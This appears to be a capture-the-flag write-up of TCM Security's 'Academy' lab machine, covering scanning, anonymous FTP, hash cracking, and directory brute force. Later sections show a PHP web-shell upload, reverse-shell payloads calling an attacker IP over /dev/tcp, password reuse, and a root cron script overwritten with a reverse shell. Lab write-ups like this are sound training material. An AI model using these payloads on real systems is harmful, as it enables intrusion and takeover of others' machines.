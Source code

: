 # Academy Box - PEH Capstone TCM Security
> Writeup for Academy machine challenge from PEH course of TCM Security

Challenge File: https://drive.google.com/drive/folders/1VXEuyySgzsSo-MYmyCareTnJ5rAeVKeH

---------------

<br>

Run `sudo netdiscover -r 192.168.0.0/24` before starting the target VM to capture all available devices in subnet \
now start the target VM and wait for new machine IP entry it will be the IP of our target VM.

Before starting the target VM

![image](https://github.com/Aftab700/Writeups/assets/79740895/264f4aa5-62fd-47d0-bb51-88a1fe8211e7)

After starting the target VM 

![image](https://github.com/Aftab700/Writeups/assets/79740895/48ec1846-d9e4-4f40-a996-91b68db451f8)


Now that we have the target IP `192.168.0.113` let's run the `nmap`

<details><summary markdown="span">Click to see nmap result :diamond_shape_with_a_dot_inside: </summary>

```bash                                                                                                           
┌──(Jack㉿Sparrow)-[~/Downloads]
└─$  nmap -sC -sV -T5 192.168.0.113 -oA nmap_Academy.txt -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-02 13:58 EST
Warning: 192.168.0.113 giving up on port because retransmission cap hit (2).
Nmap scan report for 192.168.0.113
Host is up (0.0050s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE    SERVICE       VERSION
21/tcp   open     ftp           vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.0.207
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open     ssh           OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 c744588690fde4de5b0dbf078d055dd7 (RSA)
|   256 78ec470f0f53aaa6054884809476a623 (ECDSA)
|_  256 999c3911dd3553a0291120c7f8bf71a4 (ED25519)
80/tcp   open     http          Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
1046/tcp filtered wfremotertm
1055/tcp filtered ansyslmd
1434/tcp filtered ms-sql-m
2038/tcp filtered objectmanager
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.39 seconds
```
</details>


Here we see that port `21,22,80` are open. 

In port 21 Anonymous FTP login is allowed  \
to see what files are present in this ftp we can open `ftp://192.168.0.113/` in windows File Explorer or we can also use curl

![image](https://github.com/Aftab700/Writeups/assets/79740895/94033cfd-6173-49d2-bc31-18b3621d137f)

![image](https://github.com/Aftab700/Writeups/assets/79740895/8028de5e-668e-4123-8aef-42e27cb07c85)


The note says `The StudentRegno number is what you use for login` which is `10201321` and
we have one password hash `cd73502828457d15655bbd7a63fb0bc8`. use tools like https://crackstation.net/ to crack the hash. \
This is md5 of `student`. \
now we have login credentials `10201321:student` note this for now and let's move to http site.

<br>

`http://192.168.0.113/` is Apache2 Debian Default Page

![image](https://github.com/Aftab700/Writeups/assets/79740895/d0094763-f520-4028-a338-0aca0d6cb604)


There is nothing much to see in this default page so let's do the directory brute force

<details><summary markdown="span">Click to see dirsearch result :diamond_shape_with_a_dot_inside: </summary>

```bash
┌──(Jack㉿Sparrow)-[~]
└─$ dirsearch -u http://192.168.0.113/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt 

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )
                                                                                                                                                                                                                                            
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 141672

Output File: /home/kali/.dirsearch/reports/192.168.0.113/-_24-02-04_03-17-49.txt

Error Log: /home/kali/.dirsearch/logs/errors-24-02-04_03-17-49.log

Target: http://192.168.0.113/

[03:17:49] Starting: 
[03:18:19] 301 -  319B  - /phpmyadmin  ->  http://192.168.0.113/phpmyadmin/
[03:19:57] 301 -  316B  - /academy  ->  http://192.168.0.113/academy/       
                                                                              
Task Completed
```

</details>

We found the `/phpmyadmin/` and `/academy/` directories

on the `http://192.168.0.113/academy/` page we have one login form

![image](https://github.com/Aftab700/Writeups/assets/79740895/8dcd96ba-f63a-4524-9ea6-95156c8ce0df)


Let's try the login credentials `10201321:student` that we found previously from ftp note.

![image](https://github.com/Aftab700/Writeups/assets/79740895/a36b56d4-987e-4e97-834f-f1f0fc105bf4)


It worked we are now logged in

On the My Profile page we have file upload functionality

try uploading simple php shell `<?php system($_REQUEST['cmd']); ?>` and it is not blocked we now have the ability to execute commands on server

![image](https://github.com/Aftab700/Writeups/assets/79740895/08e0c9d1-2522-4e8a-9fc3-4a19c13bc969)


we can get reverse shell by this payload `cmd=bash+-c+"bash+-i+>%26+/dev/tcp/192.168.0.207/9001+0>%261"` \
reference: https://www.revshells.com

![image](https://github.com/Aftab700/Writeups/assets/79740895/4dc9b13a-e0a3-4ff4-82fd-5a32fb2b0270)

![image](https://github.com/Aftab700/Writeups/assets/79740895/4cf54a48-a797-4c62-ae47-f0e3a7fa91a5)


In the config.php file we have the mysql_password `My_V3ryS3cur3_P4ss` and in the ftp note we show line `I told him not to use the same password everywhere` which implies 
that user Grimmie is reusing the same password so we can try to use this password to switch to user Grimmie

![image](https://github.com/Aftab700/Writeups/assets/79740895/a6efd8be-7132-4ee9-86b2-b44bcb917ba6)


looking at crontab we notice that `/home/grimmie/backup.sh` file is running as root and we can modify this file to get root access

![image](https://github.com/Aftab700/Writeups/assets/79740895/ee82ccab-380c-485d-855c-247e8e2e7dcc)


Reverse shell payload to get shell as root: 

`echo 'bash -c "bash -i >& /dev/tcp/192.168.0.207/9002 0>&1"' > backup.sh`

![image](https://github.com/Aftab700/Writeups/assets/79740895/0c2c4b55-7951-4637-ab07-86077b1ce395)

![image](https://github.com/Aftab700/Writeups/assets/79740895/b1a801aa-7b03-4d4d-849a-6a7532c95b22)


Flag:

![image](https://github.com/Aftab700/Writeups/assets/79740895/50dbf9b2-9236-4656-95ff-e7747b222a6c)

<br>

:octocat: Happy Hacking :octocat:
